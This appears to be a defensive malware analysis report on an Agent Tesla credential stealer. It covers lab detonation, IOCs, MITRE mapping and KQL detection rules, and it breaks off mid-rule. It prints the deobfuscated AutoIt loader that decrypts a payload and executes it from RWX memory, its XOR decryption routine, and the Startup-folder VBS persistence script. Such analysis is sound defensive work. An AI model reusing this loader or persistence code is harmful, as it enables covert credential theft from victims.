





# Agent Tesla Malware Analysis Report
**Author:** Nikola Marković  
**Date:** 2025-08-21                                                                                                                                      
**Last updated:** 2025-10-16  
**Version:** v3.1

Note (v3.1): Memory analysis status (preliminary): Findings are provisional and under review.                                                                                                                                                                             
Exact mapping type (manual-map vs. RunPE/hollowing) and sub-technique will be confirmed after deeper checks (PEB.ImageBaseAddress, VAD/ControlArea @0x00400000,thread start addresses).                                                                
Finalized results in v3.2.

---

## Table of Contents

1. [Executive Summary](#1-executive-summary)  
2. [Scope & Methodology](#2-scope--methodology)  
3. [Analysis Environment](#3-analysis-environment)  
4. [Static Analysis](#4-static-analysis)
   - [String Analysis (FLOSS)](#41-string-analysis-floss)  
   - [Capabilities vs. Observed Behavior](#42-capabilities-vs-observed-behavior)  
5. [Dynamic Analysis](#5-dynamic-analysis)
    - [Network Activity - Stage 2 (RegSvcs.exe)](#51-network-activity---stage-2-regsvcsexe)   
6. [Persistence Mechanisms](#6-persistence-mechanisms)   
7. [Memory / Forensic Artifacts](#7-memory--forensic-artifacts)
8. [Indicators of Compromise (IOCs)](#8-indicators-of-compromise-iocs)  
9. [Detections (Summary)](#9-detections-summary)  
10. [MITRE ATT&CK Mapping](#10-mitre-attck-mapping)
11. [Conclusion](#11-conclusion)
12. [Limitations & Future Work](#12-limitations--future-work)
13. [Appendices](#13-appendices)
    - [Appendix A - Complete Execution Timeline](#appendix-a---complete-execution-timeline)  
    - [Appendix B - Deobfuscation of the AutoIt Script](#appendix-b---deobfuscation-of-the-autoit-script)
    - [Appendix C - KQL Rules](#appendix-c---kql-rules)


---

## 1. Executive Summary

This report analyzes an AutoIt-based loader that delivers an Agent Tesla credential-stealing payload.                                                                                       
The loader decrypts its secondary component in memory, launches **RegSvcs.exe**, and runs the payload **within that process**.                                                                  
The malware harvests credentials from browsers, email clients, FTP tools, and messaging apps, and includes keylogging.                                                                                                

Persistence is achieved via a **.vbs** script placed in the Windows **Startup** folder.

In the lab, **HTTPS was allowed** and **SMTP was blocked**. The malware attempted an HTTPS call to **api.ipify.org** (public-IP check) and repeatedly attempted **SMTP exfiltration to Yandex**, which the firewall blocked. Despite egress blocking, credential theft and keylogging remained functional locally.                                                                                                        

Telemetry and memory findings: **Sysmon EID-8 (CreateRemoteThread)** was observed from the loader into RegSvcs.exe; **EID-10 (ProcessAccess)** was absent/inconclusive. Memory artifacts from **RegSvcs.exe** include private, non-file-backed RWX regions; the legitimate **MZ image** remains intact, with no indication of full hollowing. The exact sub-technique (e.g., APC or thread hijack) is **plausible but unconfirmed** with current artifacts.

---

## 2. Scope & Methodology

### Scope

- Document observable behavior from detonation to persistence.
- Capture full process creation/termination sequences.
- Map observed techniques to MITRE ATT&CK.
- **Out of scope:** kernel drivers, cross-OS testing, internet-wide propagation.

### Methodology

1. Clean snapshot, revert between runs.
2. Static triage: DIE, PEStudio, FLOSS, capa
3. Dynamic Run 1 (Safe): LAN-only, collect ProcMon, Regshot, PCAP
4. Dynamic Run 2 (Restricted): +HTTP/S; repeat collections
5. Focused light RE: dnSpy/AutoIt tools/API Monitor
6. Repeat/verify: reruns from snapshot to confirm findings
7. Report writing

### Tools Used

**Static Analysis:** Detect It Easy, PEStudio, FLOSS, capa, 7-Zip, PowerShell, AutoIt-Ripper/Loader                                             
**Dynamic Analysis:** Process Monitor, TCPView, Wireshark/TShark, Regshot, Autoruns, API Monitor

---

## 3. Analysis Environment

### Lab Environment

- **Microsoft Windows 10 Enterprise Evaluation (Version 22H2, OS Build 19045, FlareVM)** – malware detonation VM, patched, Windows Defender Antivirus and Windows Firewall disabled.
- **Microsoft Windows 10 Enterprise Evaluation (Version 22H2, OS Build 19045, Clean)** – clean VM connected to the same network, Windows Defender Antivirus and Windows Firewall disabled.
- **pfSense Firewall VM** – mediates all outbound traffic, configurable rules (DNS/HTTP/S only, ICMP, LAN-to-LAN, or full block). WAN interface connected through NAT.
- **REMnux VM** – positioned as a transparent bridge (Layer 2 between CLIENT_NET and FW_NET) between malware VM and pfSense. Runs TShark to capture all packets; invisible to malware.

 
*VMs are hosted in Oracle VirtualBox*

**VirtualBox Networking** 

  -  **CLIENT_NET** (Internal Network): Windows VMs ↔ REMnux.
  -  **FW_NET** (Internal Network): REMnux ↔ pfSense LAN.
  -   pfSense LAN subnet: 192.168.1.0/24, DHCP enabled.
  -   pfSense WAN NIC: NAT towards host.
 
**Connectivity Controls**

- **Run 1 (Safe):** Block all outbound internet. Allow only LAN-to-LAN, DNS, optional ICMP.  
- **Run 2 (Restricted):** Run 1 + HTTP/S (closely monitored).  
- No full "allow all" stage was used, to prevent risk of botnet participation or worm propagation.

### Detonation VM OS and Patch Information

- **OS:** Microsoft Windows 10 Enterprise Evaluation
- **Build:** 22H2 (OS Build 19045.2006)
- **Architecture:** x64
- **Status:** Fully patched as of 2025-08-15

---

## 4. Static Analysis

### File Metadata & Version Info

**Type:** AutoIt-compiled loader -> executes embedded payload

---

### Main Sample (hereafter referred to as main_sample.exe)

- **SHA256:** 45d6ccb917bd3b9333316262ebcd56caa515385f9c2b387417ee8152a1fe798a
- **File type:** Executable, 32-bit, GUI
- **Compiler:** Microsoft Visual C++ 6.0–8.0, Visual Studio 2012
- **Compile timestamp:** Wed Jul 30 23:52:50 2025 
- **Signature:** AutoIt compiled script 
- **Size:** ~1.26 MB 
- **Entropy:** 7.093 
- **Entry Point:** 0x00025F74 (.text section)
- **Requested Execution Level:** "asInvoker" (runs with same privileges as user)

---

### Obfuscation & Masquerading

- Rolling XOR decoding for  names, constants, and payload
- Randomized variable and function names
- Dead "noise" code, decoy  calls, fake URLs
- **Embedded Excel icon in resources** to masquerade as an Office document, despite being an executable
 
---

### Real Execution Path *(from decoded AutoIt)*

1. Drops **Archimago** & **complacence** into `%TEMP%`.
2. Decrypts **Archimago** with custom rolling XOR (`KOGMOFDJ`).
3. Allocates RW heap buffer -> sets it to RWX via VirtualProtect(…, 0x40) -> executes via CallWindowProc (entry offset +9200).
4. Transfers control to **stage-2 payload** in memory.

---

### Dead Code Purpose

Inflates string surface + misleads static analysis.

---

### Key Decoded Strings

- `GetProcessHeap`
- `HeapAlloc`
- `VirtualProtect`
- `CallWindowProc`
- `DllStructCreate`

---

### Capabilities *(from capa + PEStudio)*

- Registry **Run-key persistence** *(not observed during dynamic analysis)*
- **Process injection** + remote thread creation
- **HTTP/SMTP** communications
- **Credential harvesting**
- **Anti-analysis** techniques *(WOW64 disable, process enumeration)*

---

### Deobfuscated Code Extracted from `main_sample.exe`

```
FileInstall ( "Archimago" , @TempDir & "\Archimago" , 1 )
Global $RDEVAVC = KOGMOFDJ ( FileRead ( @TempDir & "\Archimago" ) )
FileInstall ( "complacence" , @TempDir & "\complacence" , 1 )
Global $WJORKAPW = DllCall ("kernel32.dll", "ptr", "GetProcessHeap") [ 0 ]
Global $JIVEKJU = DllCall ("kernel32.dll", "ptr", "HeapAlloc", "ptr", $WJORKAPW , "dword", 0 , "dword", BinaryLen ( $RDEVAVC ) ) [ 0 ]
DllStructSetData ( DllStructCreate ("byte[" & BinaryLen ( $RDEVAVC ) & "]" , $JIVEKJU ) , 1 , $RDEVAVC )
DllCall ( "kernel32.dll", "bool", "VirtualProtect", "ptr", $JIVEKJU , "dword", BinaryLen ( $RDEVAVC ) , "dword", 0x40, "dword*", 0 )
DllCall ( "user32.dll", "ptr", "CallWindowProc" , "ptr", $JIVEKJU + 9200 , "ptr", 0 , "ptr", 0 , "ptr", 0 , "ptr", 0 )

```
This decoded AutoIt snippet shows the core loader functionality:
1. **Extract & decrypt**: `Archimago` is extracted to `%TEMP%` and decrypted in‑memory into `$RDEVAVC`.  
2. **Allocate**: Memory for the payload is obtained via the Windows heap APIs (`GetProcessHeap` -> `HeapAlloc`).  
3. **Write**: The decrypted  payload is copied into the buffer (`DllStructSetData`).  
4. **Make executable**: `VirtualProtect` switches the region to `PAGE_EXECUTE_READWRITE` (`0x40`).  
5. **Execute**: The payload is invoked by calling an **entrypoint within the buffer** (offset `9200` bytes) using `CallWindowProc`, a common trampoline to run shellcode/PE stubs in memory.

**For detailed deobfuscation of the AutoIt loader, see **[Appendix B - Deobfuscation of the AutoIt Script](#appendix-b---deobfuscation-of-the-autoit-script)****

### 4.1. String Analysis (FLOSS)

**Tool Used:** [FLOSS](https://github.com/mandiant/flare-floss)  

**Findings:**

- The main sample (`main_sample.exe`) is an **AutoIt-compiled loader**.
- Most decoded strings are **misleading or noise**, including:
    - AutoIt runtime markers: `">>>AUTOIT SCRIPT<<<"`, `"This is a third-party compiled AutoIt script"`.
    - Fake/unused URLs: e.g., `htttp://deriU.io`, `htttp://mQhuFGoCb.io`.
    - AutoIt GUI/runtime messages and random variables.
- FLOSS identified many **WinINet  calls** (`InternetOpen`, `InternetConnect`, `HttpOpenRequest`) and **FTP functions** (`FtpOpenFile`, `FtpGetFileSize`), suggesting HTTP(S)/FTP exfiltration support.
- It also revealed indicators of:
    - Registry interaction s (`RegCreateKeyExW`, `RegSetValueExW`, etc.).
    - Token manipulation APIs (`LogonUserW`, `DuplicateTokenEx`).
    - Process injection APIs (`VirtualAllocEx`, `WriteProcessMemory`, `CreateRemoteThread`).
    - Sandbox evasion hints (e.g., `Wow64DisableWow64FsRedirection`).

**Limitations:**

- No useful IOCs or config strings recovered.
- Likely because **Archimago** (stage-2 payload) and other key resources are **runtime-decrypted**.
- Requires dynamic analysis to extract real indicators.

---

### 4.2. Capabilities vs. Observed Behavior

| Capability               | Detected Statically                                | Observed Dynamically              | Notes |
|--------------------------|----------------------------------------------------|-----------------------------------|-------|
| Registry Run Key Persistence | capa / PEStudio                                    | Not triggered                     | Used Startup `.vbs` instead |
| Process Injection        | AutoIt script (`HeapAlloc`, `CallWindowProc`)     | Confirmed in RegSvcs.exe          | Core execution path |
| Keylogging               | API indicators (`GetKeyState`, `SetWindowsHookEx`) | Confirmed via API Monitor         | Active during RegSvcs.exe runtime |
| HTTPS Beaconing          | WinInet APIs                                       | Attempted -> `api.ipify.org`       | Connection observed, no HTTP payload visible (TLS) |
| SMTP Exfiltration        | SMTP/WinInet APIs                                  | Attempted -> Blocked               | Targeted Yandex servers |
| Credential Harvesting    | capa                                               | Confirmed                         | Browsers, Discord, FTP, etc. |
| Token Manipulation       | Strings (`LogonUserW`, `DuplicateTokenEx`)         | Not observed                      | Possible dormant capability |
| Sandbox Evasion          | Strings (`Wow64DisableWow64FsRedirection`) + dead code | Not observed                  | Likely decoy/unused |

---

## 5. Dynamic Analysis

### The following summary illustrates the execution chain observed during detonation:

High-Level Flow:
```
Stage 1 (main_sample.exe)
   -> decrypts Archimago + writes short-lived files to %LOCALAPPDATA%\Temp.
   -> repeatedly reads complacence + .tmp artifacts before spawning next stage.

Persistence Copy (endochylous.exe)
   -> identical binary to main_sample.exe, dropped under a new name.
   -> installs persistence (endochylous.vbs in Startup).
   -> spawns RegSvcs.exe with injected payload.

Stage 2 (RegSvcs.exe, abused .NET binary)
   -> credential harvesting (browsers, mail, FTP, VPN, DB, Discord).
   -> probes certificate stores, policy keys, hosts file.
   -> performs WMI reconnaissance (system, process, user queries).
   -> establishes keylogging capability via keyboard hooks.
   -> attempted SMTP exfiltration (Yandex). WinInet APIs for HTTP POST were present, but no HTTP exfil was observed in this build.

```

For a detailed execution timeline (with timestamps and full process tree), see **[Appendix A - Complete Execution Timeline](#appendix-a---complete-execution-timeline)**

---

### Dropped Components

- **`endochylous.exe`** – SHA256: 45d6ccb917bd3b9333316262ebcd56caa515385f9c2b387417ee8152a1fe798a (a copy of the main executable)
- **`endochylous.vbs`** – SHA256: 3f3da4f8c6303ecab6929a9a852460fac7b2d66a00edcb5a2a23b236e6600deb
- **`complacence`** – SHA256: 2075b64d89b4c20daa2b08665de742b864cfe864a5fd81faa7db07e8942600c5
- **`Archimago`** – SHA256: de793a6553823e66311903b353d4be2027e21952f6bf6ad683e553f2fcf31844 
- **`autEF34.tmp`** – temporary file with "randomly" generated name

---

### Keylogging behavior (RegSvcs.exe) - API Monitor

- The injected .NET assembly initializes a hidden message window (RegisterClassExW -> CreateWindowExW).
- It runs a standard message pump (GetMessageW/PeekMessageW -> TranslateMessage -> DispatchMessageW).
- During runtime it repeatedly calls GetKeyState/GetKeyboardState for modifier keys alongside GetForegroundWindow to tag the active application.
- Presence of CallNextHookEx indicates a keyboard hook is installed.
- Around initialization the process also attempted network operations:
  - WinHTTP/WinInet API calls (e.g., WinHttpOpen) consistent with HTTPS beaconing (such as to api.ipify.org).
  - Low-level Winsock calls (WSAConnect, send) consistent with direct SMTP exfiltration attempts to Yandex.
  - In the lab these Winsock calls returned SOCKET_ERROR, indicating the connections were blocked.

 

---

### 5.1 Network Activity - Stage 2 (RegSvcs.exe)

### DNS Resolution
- `api.ipify.org` -> 172.67.74.152 (Cloudflare edge)
- `smtp.yandex.com` (CNAME `smtp.yandex.ru`) -> 77.88.21.158
- rDNS of 77.88.21.158 -> `mail-smtp.stable.qcloud-b.yandex.net`

### Observed Connections
| Timestamp (approx) | Destination                         | Port | Protocol | Purpose / Notes |
|--------------------|-------------------------------------|------|----------|----------------|
| 09:43:49           | 172.67.74.152                       | 443  | HTTPS    | Attempted connection to `api.ipify.org` -> external IP check / potential beacon. |
| 10:04–10:44        | mail-smtp.stable.qcloud-b.yandex.net | 587  | SMTP     | Repeated TCP connection attempts (SYN retransmissions, no SYN-ACK observed). Indicates blocked email exfiltration attempt. |

### Assessment
- RegSvcs.exe attempted HTTPS to `api.ipify.org` (Cloudflare-hosted). This behavior is consistent with external reconnaissance (retrieving the victim’s public IP).
- Persistent SMTP submission attempts were directed at Yandex mail servers (`mail-smtp.stable.qcloud-b.yandex.net:587`).
- In the lab, no successful SMTP session was established due to outbound restrictions.

 

 

---

## 6. Persistence Mechanisms

### `endochylous.vbs` in the Startup folder contains:
```
Set WshShell = CreateObject("WScript.Shell")
WshShell.Run "C:\Users\**\AppData\Local\troopwise\endochylous.exe", 1
Set WshShell = Nothing
```
 

---

## 7. Memory / Forensic Artifacts

**Scope & tooling.** Volatility 3 (via PassMark Workbench) on mem.raw. Focus process: **RegSvcs.exe**.

**Confirmed:**
- **CreateRemoteThread:** Sysmon EID-8 observed from the loader into RegSvcs.exe.
- **Private RWX memory under RegSvcs.exe:** Multiple **non-file-backed** regions tagged **VadS** with **PAGE_EXECUTE_READWRITE**:
  - 0x05080000–0x0508FFFF, 0x02B20000–0x02B2FFFF, 0x7F370000–0x7F37FFFF, 0x7F380000–0x7F3CFFFF. 
  - `malfind` shows those regions as executable with shellcode-like bytes; no file mapping.
- **No evidence of full process hollowing:** The **legitimate image** for RegSvcs.exe remains mapped at **0x00400000–0x00445FFF** with an **MZ** header; not replaced.
- **Loaded modules fit data-theft/networking behavior:** Dumps show .NET runtime + networking/crypto stack (clr.dll, mscoree/ei, ws2_32, winhttp, dnsapi, schannel, ncrypt, etc.). 
- **Strings of interest from process memory:** 
  - Endpoints/infra: `https://api.ipify.org`, `smtp.yandex.com`
  - Creds/addresses observed in memory: `jewoneng@jewoneng-kr.ml`, `marcellinus360`
  - Keylogging tokens: `{ALT+TAB}`, `{CAPSLOCK}`, `{ENTER}`, `{ALT+F4}`, etc.                                                                                             
  (_Captured from the RegSvcs.exe memory strings view in the latest run._)

**Interpretation:**
These artifacts are consistent with manual shellcode staging and in-process stubs; additional traces (e.g., thread contexts or queued APC callbacks) would be needed to confirm an APC-based handoff. The absence of a clean EID-10 event may stem from configuration, handle reuse, or timing and does not by itself prove an evasion technique.

---

## 8. Indicators of Compromise (IOCs)

### Files & Paths

| Artifact          | Path / Name                         | SHA256                                   |
|------------------|-----------------------------------|----------------------------------------|
| Loader           | main_sample.exe                   | 45d6ccb917bd3b9333316262ebcd56caa515385f9c2b387417ee8152a1fe798a |
| Dropped EXE      | endochylous.exe                   | Same as loader |
| VBS Persistence  | endochylous.vbs                   | 3f3da4f8c6303ecab6929a9a852460fac7b2d66a00edcb5a2a23b236e6600deb |
| Payload          | Archimago                         | de793a6553823e66311903b353d4be2027e21952f6bf6ad683e553f2fcf31844 |
| Payload Support  | complacence                       | 2075b64d89b4c20daa2b08665de742b864cfe864a5fd81faa7db07e8942600c5 |

### Network Indicators

| Domain / IP | Purpose | Port | Notes |
|------------|--------|------|-------|
| api.ipify.org | HTTPS beacon | 443 | Cloudflare edge |
| smtp.yandex.com | SMTP exfil | 587 | CNAME -> smtp.yandex.ru |
| mail-smtp.stable.qcloud-b.yandex.net | SMTP exfil | 587 | Observed SYN retries |

### Behavioral Indicators (Detection Opportunities)

| Category           | Indicator / Behavior | Notes |
|--------------------|----------------------|-------|
| Masquerading       | Excel-style icon embedded in resources | Misleads user into believing file is an Office document |
| Process Abuse      | `RegSvcs.exe` running with injected payload | Abnormal usage (normally only for .NET registration) |
| Keylogging APIs    | `GetKeyState`, `GetKeyboardState`, `CallNextHookEx` | Observed via API Monitor under `RegSvcs.exe` |
| Persistence        | Dropped `endochylous.vbs` in Startup folder | Ensures execution at logon |

---

## 9. Detections (Summary)

- **Startup-folder persistence (drop OR execute):** Detects script/shortcut drops into the per-user Startup folder and interpreters launching items from Startup.
- **Suspicious AppData\Local EXE creation:** Flags new .exe written under AppData\Local\\\<folder>, emphasizing first-seen parent folders with basic allowlists.
- **User-writable parent -> drop to Temp/AppData:** Correlates a child process spawned by a user-writable parent with file writes to Temp/AppData/Desktop within a short window.

*Full KQL in: [Appendix C - KQL Rules](#appendix-c---kql-rules).*

---

## 10. MITRE ATT&CK Mapping

| Tactic          | Technique ID | Technique Name                                   | Observed |
|-----------------|--------------|-------------------------------------------------|----------|
| Initial Access | T1204.002 | User Execution: Malicious File | Execution of loader `main_sample.exe`, masquerading with Excel icon |
| Execution       | T1059.010    | Command and Scripting Interpreter: AutoIt       | main_sample.exe loader |
| Execution       | T1059.005    | Command and Scripting Interpreter: Visual Basic | endochylous.vbs persistence script |
| Persistence     | T1547.001    | Boot or Logon Autostart Execution: Startup Folder | endochylous.vbs in Startup |
| Defense Evasion | T1027        | Obfuscated Files or Information                 | XOR + dead code in AutoIt |
| Defense Evasion | T1036        | Masquerading                                    | RegSvcs.exe abuse. Embedded Excel icon to mislead users into running an executable |
| Defense Evasion | T1055        | Process Injection (sub-technique to be determined)   | EID-8 observed; private RWX VADs; no hollowing. |
| Credential Access | T1555      | Credentials from Web Browsers                   | RegSvcs.exe enumerating browser and credential registry keys |
| Collection      | T1056.001    | Input Capture: Keylogging                       | API Monitor logs. Keystroke tokens present in process memory. |
| Command & Control | T1071.001  | Application Layer Protocol: Web Protocols       | `api.ipify.org` |
| Command & Control | T1071.003  | Application Layer Protocol: Mail Protocols      | SMTP -> Yandex |

---

## 11. Conclusion

This Agent Tesla sample uses an AutoIt loader to decrypt and execute a credential-stealing payload in memory.                                                                          
Capabilities include credential harvesting, keylogging, HTTPS beaconing, and SMTP-based exfiltration.                                                                                                    
Dynamic analysis showed payload execution inside **RegSvcs.exe** via **CreateRemoteThread**; the precise injection sub-technique remains undetermined.                                                                   
Repeated exfiltration attempts to Yandex mail servers were observed but failed due to outbound controls in the lab.                                                                           
If undetected, the malware would enable ongoing credential theft and continuous exfiltration.                                                                                                                                            
The absence of Sysmon EID-10 events in this analysis could result from multiple factors including configuration, timing, or evasion techniques; the specific cause remains undetermined.

**Recommendations**
- Enforce egress policy: block direct outbound **SMTP** (allow only approved relays) and alert on unusual **HTTPS** beacons tied to initial discovery (e.g., public-IP checks).  
- Monitor **RegSvcs.exe** for atypical behavior: remote-thread targets, child processes, module loads, and network connections.  
- Detect persistence: file creates/exec in **Startup** (e.g., `.vbs` like `endochylous.vbs`) and subsequent **wscript.exe/cscript.exe** launches.  
- Hunt for memory-resident activity: private **RWX** regions in user processes and **EID-8** into non-service binaries; tune **EID-10** collection to improve ProcessAccess visibility.  
- Add behavior-based detections for credential theft/keylogging and SMTP client activity originating from non-mail apps.
 
---

## 12. Limitations & Future Work

### Limitations

- Analysis performed in a controlled lab; behavior may differ in real-world environments (e.g., with unrestricted internet access).  
- No per-region/process dumps or decrypted configuration extraction were performed; analysis relied on triage (VAD/malfind/strings) from the full memory image.
- Deobfuscation focused on the AutoIt loader stage; full reverse engineering of the injected Agent Tesla payload (including packed assemblies) was out of scope.

### Future Work

- Perform memory forensics and process dumps of RegSvcs.exe to recover decrypted configs, credentials, and potential secondary modules.
- Conduct deeper reverse engineering of the .NET payload to fully map functionality beyond what was observable dynamically.
- Safely emulate or sinkhole C2 infrastructure to confirm exfiltration formats and operator commands.
- Compare multiple AutoIt loaders used by Agent Tesla to identify code reuse or shared infrastructure.

---

## 13. Appendices

### Appendix A - Complete Execution Timeline

The following table documents process execution and key events observed during dynamic analysis. Full process tree available below.

| Timestamp        | Process / Event         | Description |
|------------------|-----------------|-------------|
| 09:43:44.9114923 | main_sample.exe | Initial detonation. |
| 09:43:44.9372589 | main_sample.exe | Enumerates language packs in `HKLM\System\CurrentControlSet\Control\MUI\UILanguages\`. |
| 09:43:44.9950606+| main_sample.exe | Drops **Archimago**, **autEF34.tmp**, and **complacence** into `%LOCALAPPDATA%\Temp` (encrypted payload components). |
| 09:43:45.6460512 | main_sample.exe | Drops **endochylous.exe** into `%LOCALAPPDATA%\troopwise\`. |
| 09:43:45.6515688 | main_sample.exe | Spawns **endochylous.exe** (PID 5608). Child repeats steps: language enumeration, creation of `.tmp` (autF262.tmp), and writing `complacence` + `Archimago` in `%Temp%`. |
| 09:43:45.6645533 | main_sample.exe | Exits. |
| 09:43:46.3453380 | endochylous.exe (PID 5608) | Drops **endochylous.vbs** into Startup folder (`%APPDATA%\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\`). |
| 09:43:46.3464874 | endochylous.exe (PID 5608) | Spawns **RegSvcs.exe** (PID 6164). |
| 09:43:46.3468740 | endochylous.exe (PID 5608) | Spawns **endochylous.exe** (PID 6832) using `endochylous.exe` in command line. |
| 09:43:46.3468740 | endochylous.exe (PID 6832) | Spawns **RegSvcs.exe** (PID 8544) (**injected payload host**) |
| 09:43:46.3779250 | RegSvcs.exe (PID 6164) | Exits almost immediately (likely failed injection or decoy process). |
| 09:43:46.3847113 | endochylous.exe (PID 5608) | Exits. |
| 09:43:47.1282845 | endochylous.exe (PID 6832) | Exits. |
| 09:43:46–10:46:41   | RegSvcs.exe (PID 8544) | Active runtime (**injected payload**). Performs credential harvesting attempts (browsers, email, FTP, VPN, Discord). Probes certificate stores, policy keys, and hosts file. Initiates keylogging (*GetKeyState*, *GetKeyboardState*, *CallNextHookEx*). Attempts HTTPS beacon to `api.ipify.org` (public IP check) and SMTP exfiltration to Yandex (blocked). |
| 10:46:41.8930591 | RegSvcs.exe (PID 8544) | Terminated manually by analyst. |

 

---

### Appendix B - Deobfuscation of the AutoIt Script

#### Rolling XOR Function for Deobfuscation (found in `main_sample.exe`)

```
Func KOGMOFDJ ( $BNWMAXYE )
    Local $UEVNWOOE = 80
    Local $PDZMKVDKY = ""
    For $MWPSYCXY = 1 To StringLen ( $BNWMAXYE )
        Local $OICKPUY = Asc ( StringMid ( $BNWMAXYE , $MWPSYCXY , 1 ) )
        $PDZMKVDKY &= Chr ( BitXOR ( $OICKPUY , $UEVNWOOE ) )
        $UEVNWOOE = Mod ( $UEVNWOOE + 13 , 256 )
    Next
    Return $PDZMKVDKY
EndFunc
```

---

#### PowerShell Deobfuscation Method

```
function Decrypt-KOGMOFDJ { 
    param (
        [string]$ObfuscatedString 
    ) 
    $bytes = [System.Text.Encoding]::Default.GetBytes($ObfuscatedString) 
    $key = 80 
    $decrypted = "" 

    foreach ($byte in $bytes) { 
        $decrypted += [char]($byte -bxor $key) 
        $key = ($key + 13) % 256 
    } 
    return $decrypted 
}

$testStrings = @(
    ';8^X^Yáy-T-¡_3',
    ' )^X',
    "^W8^^'ö_yIE¶sº^I%",
    ";8^X^Yáy-T-¡_3",
    " )^X",
    "^X8^K^GÅyòÄU",
    " )^X",
    "4^E^Eà",
    "4^E^Eà",
    "2$^^^Rß",
    ";8^X^Yáy-T-¡_3",
    "22^E^[",
    "^F4^X^CñdòûEª▌º^I^I",
    " )^X",
    "4^E^Eà",
    "4^E^Eà",
    "%^G",
    "4^E^Eà»",
    "%.^O^E·£°IOc",
    " )^X",
    "^S<^F^[OodIx²,-ƒs",
    " )^X", " )^X", " )^X", " )^X", " )^X"
)

foreach ($str in $testStrings) { 
    $decrypted = Decrypt-KOGMOFDJ -ObfuscatedString $str 
    Write-Host "Obfuscated: '$str' -> Decrypted: '$decrypted'"
}


```
The string ``"`%^G"`` failed because PowerShell treats ` as an escape character.                                                                                                     
To solve this, a raw hex decryption approach was used instead:

```
function Decrypt-KOGMOFDJ-Raw {
    param (
        [byte[]]$Bytes
    )
    $key = 80
    $decrypted = ""
    foreach ($byte in $Bytes) {
        $decrypted += [char]($byte -bxor $key)
        $key = ($key + 13) % 256
    }
    return $decrypted
}
```

---

### Appendix C - KQL Rules

#### Startup-folder persistence (drop OR execute):
```kusto
// Rule: Startup-folder persistence (drop OR execute)
// Why: Attackers often drop script/shortcut payloads into Startup and/or launch them via script interpreters.
// Lab note: Minimal trims below to keep signal visible.
// Prod note: Add allow/suppress lists for known mgmt scripts, software updaters, signed vendor tools, and EDR/VT/TI correlation.

// DROP signal: suspicious file created in the per-user Startup folder (scripts/shortcuts only)
let s_drop =
    Sysmon_11_FileCreate()
    | where isnotempty(target_filename)
    | extend target_lc = tolower(target_filename), ext = tolower(file_ext)
    | where target_lc has @"\microsoft\windows\start menu\programs\startup\"
    // Focus on scriptable/autostart-friendly types, avoiding noisy .exe/.msi (currently no integrity check telemetry in this lab)
    | where ext in ("vbs","vbe","js","jse","wsf","wsh","hta","ps1","bat","cmd","lnk","scr")
    | extend detection = "startup_drop"
    | extend b_user_name = user_name
    | project time_generated, computer, b_user_name, detection,
              process_id, process_path, target_filename, file_ext;

// EXEC signal: interpreters launching scripts or items from Startup
let s_exec =
    Sysmon_1_ProcessCreate()
    | extend proc_lc = tolower(process_path), cmd_lc = tolower(tostring(command_line))
    // Common script/host interpreters
    | where proc_lc matches regex @"\\(w|c)script\.exe$"
        or proc_lc matches regex @"\\powershell(?:\.exe)?$"
